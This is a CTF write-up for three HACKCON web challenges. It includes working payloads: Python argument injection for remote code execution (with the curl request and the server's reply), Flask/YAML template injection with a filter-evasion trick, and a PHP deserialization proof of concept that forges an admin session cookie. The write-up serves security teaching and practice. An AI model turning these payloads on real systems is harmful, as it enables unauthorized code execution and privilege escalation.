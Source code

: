 --------------

### HACKCON CTF 

----------------

![image](https://github.com/user-attachments/assets/2a3fdfd1-c616-4f65-9554-b4e9018fe752)

----------------

### Challenges-:

----------------

- Web-:
  - Processed Subscription
  - Flask ain't no markup language
  - Zeezy's notes

------------------

### Web

------------------

### Processed Subscription

------------------

![image](https://github.com/user-attachments/assets/edee15aa-4195-4a00-aa61-bb9f8c605ead)

------------------

- Source code analysis, code-:

```python
@app.route('/run_file', methods=['GET'])
def run_code():
    filename = request.args.get("code")
    if filename.endswith(".py"):
       response = subprocess.Popen(["python3",filename],stdout=-1).communicate()
       response =  response[0].decode()
       print(response)
    else:
        response = "Invalid file type"
    return jsonify({'result': response})
```
- The route `run_file` is vulnerable to argument injection.An attacker can control the filename variable and trigger `argument injection` to Remote Code Exection on the server.
- Testing it on a python interpreter before triggering it on the server.

![image](https://github.com/user-attachments/assets/104066ba-c520-4d52-aa79-4a9613c00ccc)

- Normally, Python should only execute a file in this state and should not be vulnerable to `argument injection`.
- Explaining the payload-:

```python3
-c\neval(\"__import__('os').system('id')\")
```

- The `-c` switch triggers the python interpreter, then we use `\n` to slip to the next line.Then, in the next line, we activate our payload.If we try it with the python interpreter, it'll be something like this.

![image](https://github.com/user-attachments/assets/f3f2a683-94ad-4c3e-9a4d-84e2480f27a4)

- Final Payload-:
```
-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py
```

- Flag-: ```gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}```

```zsh
curl -G https://chall1.pxxl.xyz/run_file -d "code=-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py"
{"result":"gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}\n"}
```

----------------

### Flask ain't no Markup Language

---------------

![image](https://github.com/user-attachments/assets/5fa6bf38-41f2-42f1-9866-0447c27c6504)

---------------

- Vulnerability is Flask Server Side Template Injection in `yaml`.While executing it, our payload will be place in yaml syntax e.g

```yaml
x: "{{7*7}}"
```

![image](https://github.com/user-attachments/assets/e4fd1bf4-85f5-4ce6-bfb4-ed18a3112ce40)


- Final payload-:

```
x: "{{config.__init__.__globals__.__getitem__('__BUILTINS__'.lower()).__getitem__('__IMPORT__'.lower())('OS'.lower()).popen('base64 /app/fl??/*.txt | base64 -d').read()}}"
```

- You can bypass the filtered strings by setting it to uppercase and passing it to python's lower function as soon as it is parsed.Lastly. the word `flag` gets filtered which you can bypass with regex e.g `fl?? should match flag`.
- Flag-: ```gdscCTF{4c4dae5677c29dcdcd06ba88565602fa}```

![image](https://github.com/user-attachments/assets/9bb1bb33-8913-4bf3-be94-5e2f4796dfe5)

----------------

### Zeezy's notes

-----------------

![image](https://github.com/user-attachments/assets/4c5c3982-9e3b-49ac-8c9c-e83fccba294e)

-----------------

- Vulnerability-: Php Insecure Deserialization(Privesc to Remote Code Execution)

------------------

### Source Code Analysis (Privilege Escalation)

------------------

- Welcome.php-:

```php
/ Check cookie
if (!isset($_COOKIE['APP_SESSID'])) {
    header("Location: login.php");
    exit;
}

// Decode + unserialize cookie
$data = unserialize(base64_decode(urldecode($_COOKIE['APP_SESSID'])),["allowed_classes" => ["User"]]);

// Safety check
if (empty($data->username) && empty($data->role)) {
    header("Location: login.php");
    exit;
}
$username = $data->username;
$role = $data->role;

// Verify username in DB
$stmt = $db->prepare("SELECT * FROM users WHERE username = :username");
$stmt->bindValue(':username', $username, SQLITE3_TEXT);
$result = $stmt->execute()->fetchArray(SQLITE3_ASSOC);

if (!$result) {
    header("Location: login.php");
    exit;
}

// Redirect admin
if ($role === "admin") {
    header("Location: admin.php");
    exit;
}
```

- It unserializes the cookie and picks the variable `username` which is checked against the db and validated. Although, the `role` is checked with an if statement and not based on the db.We can solve this by creating a valid `User` object with the `role` set to `admin`.User.php-:

```php
<?php
class User {
    public $username;
    public $role;

    // Constructor to initialize a new User object
    public function __construct($username, $role = "user") {
        $this->username = $username;
        $this->role = $role;
    }
}
?>
```

- Proof of concept-:

```php
<?php
class User {
    public $username;
    public $role;
}
//Create a new object

$user = new User;
$user->username = "z";
$user->role = "admin";
$payload = urlencode(base64_encode(serialize($user)));
echo $payload;
?>
```

![image](https://github.com/user-attachments/assets/3c31e676-f1ec-4762-a381-34ddfbcc9f10)

- Admin privileges

![image](https://github.com/user-attachments/assets/0f9482a6-a5a1-4807-9821-2f504487aa48)





